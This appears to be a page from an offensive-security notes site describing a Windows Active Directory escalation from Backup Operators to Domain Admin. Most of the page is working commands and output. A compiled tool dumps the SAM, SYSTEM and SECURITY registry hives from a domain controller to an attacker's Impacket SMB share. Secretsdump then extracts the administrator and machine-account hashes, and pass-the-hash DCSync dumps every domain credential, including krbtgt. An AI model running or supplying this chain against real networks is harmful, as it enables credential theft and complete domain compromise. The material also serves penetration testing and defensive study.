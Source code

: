 ```yaml
---
title : "BackupOperatorToDA"
# pre : ' '
description : "From Backup Operator To Domain Admin."
date : 2022-02-22T17:33:18+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## BackupOperatorToDA - From Backup Operator To Domain Admin

If you compromise an account member of the group Backup Operators you can become the Domain Admin without RDP or WinRM on the Domain Controller.

All credit from [filip_dragovic](https://twitter.com/filip_dragovic) with his inital [POC](https://raw.githubusercontent.com/Wh04m1001/Random/main/BackupOperators.cpp) ! I build this project because I wanted to have a more generic binary with parameters and also being able to export the SAM database on the remote share!

## Prerequisites

- Compile the `.sln` file from [Github Repo](https://github.com/mpgn/BackupOperatorToDA) (or trust mine below.)
- Impacket [smbserver.py]({{< ref "smbserver-py" %}})
- Impacket [secretsdump.py]({{< ref "secretsdump-py" %}})
- Account in target domain with the 'Backup Operator' membership

{{%resources fa_icon_class="far fa-file" pattern=".*(exe)"/%}}

### Account checking

First it it important to be sure the user is member of the 'Backup Operator' group.

```plain
Microsoft Windows [Version 10.0.19043.1526]
(c) Microsoft Corporation. All rights reserved.

C:\Users\johndo>whoami
offsec\johndo

C:\Users\johndo>net user johndo /domain
The request will be processed at a domain controller for domain offsec.nl.

User name                    johndo
Full Name                    John Do
[...]

Local Group Memberships      *Backup Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

### Set-up smbserver.py

It is recommended to check if the share is reachable from a Windows workstation without additional credentials.

```plain
$ smbserver.py -smb2support -ip 10.20.30.16 share .
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.20.30.12,50555)
[*] AUTHENTICATE_MESSAGE (OFFSEC\johndo,WIN10)
[*] User WIN10\johndo authenticated successfully
[...]
```

## Exploiting the vulnerable configuration

### Executable running and dumping SAM/SYSTEM/SECURITY

```plain
PS C:\> .\BackupOperatorToDA_release.exe -t \\srv2019.offsec.nl -u johndo -p Welkom1234 -d offsec.nl -o \\10.20.30.16\share\
Making user token
Dumping SAM hive to \\10.20.30.16\share\SAM
Dumping SYSTEM hive to \\10.20.30.16\share\SYSTEM
Dumping SECURITY hive to \\10.20.30.16\share\SECURITY
```

### Secretsdump SAM/SYSTEM/SECURITY

Two hashes can be used from here, the **'$MACHINE.ACC'** and/or **'administrator'** hash.

```plain
$ secretsdump.py -sam SAM -system SYSTEM -security SECURITY LOCAL
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x9319e551be8d75919967f0065e0132b9
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
$MACHINE.ACC:plain_password_hex:43bcb[...]
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:e1842947e54ab3d9a8758531e8fc6049
[...]
```

### Dump everything

### Using administrator hash

```plain
$ secretsdump.py offsec.nl/administrator@srv2019.offsec.nl -hashes :97f2592347d8fbe42be381726ff9ea83 -just-dc
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a0b5d64d34935c8a4780b715cfb444c4:::
offsec.nl\MARSHALL_FRANKS:1103:aad3b435b51404eeaad3b435b51404ee:dacd6680af15849bb89a4f0da30e99b0:::
offsec.nl\JAMES_VAUGHAN:1104:aad3b435b51404eeaad3b435b51404ee:75ed74673dd7bf358d48207fdd0d42e0:::
offsec.nl\WARD_CONTRERAS:1105:aad3b435b51404eeaad3b435b51404ee:e0e7955fe13737060bd2d0c5049a78d2:::
offsec.nl\EDDY_MILES:1106:aad3b435b51404eeaad3b435b51404ee:f41a8d181561d36de8ebfc96a0caac0f:::
offsec.nl\ANDREW_VASQUEZ:1107:aad3b435b51404eeaad3b435b51404ee:bc13660676fce9b4aab8fac6ed8adcd5:::
offsec.nl\ULYSSES_COTE:1108:aad3b435b51404eeaad3b435b51404ee:c7f0cab839fde136be09348e15febaba:::
[...]
```

### Using machine account hash

```plain
$ secretsdump.py offsec.nl/'srv2019$'@srv2019.offsec.nl -hashes :e1842947e54ab3d9a8758531e8fc6049 -just-dc
Impacket v0.9.25.dev1+20220218.140931.6042675a - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:97f2592347d8fbe42be381726ff9ea83:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:a0b5d64d34935c8a4780b715cfb444c4:::
offsec.nl\MARSHALL_FRANKS:1103:aad3b435b51404eeaad3b435b51404ee:dacd6680af15849bb89a4f0da30e99b0:::
offsec.nl\JAMES_VAUGHAN:1104:aad3b435b51404eeaad3b435b51404ee:75ed74673dd7bf358d48207fdd0d42e0:::
offsec.nl\WARD_CONTRERAS:1105:aad3b435b51404eeaad3b435b51404ee:e0e7955fe13737060bd2d0c5049a78d2:::
offsec.nl\EDDY_MILES:1106:aad3b435b51404eeaad3b435b51404ee:f41a8d181561d36de8ebfc96a0caac0f:::
offsec.nl\ANDREW_VASQUEZ:1107:aad3b435b51404eeaad3b435b51404ee:bc13660676fce9b4aab8fac6ed8adcd5:::
offsec.nl\ULYSSES_COTE:1108:aad3b435b51404eeaad3b435b51404ee:c7f0cab839fde136be09348e15febaba:::
[...]
```

## URL List

- [Github.com - From Backup Operator To Domain Admin](https://github.com/mpgn/BackupOperatorToDA)
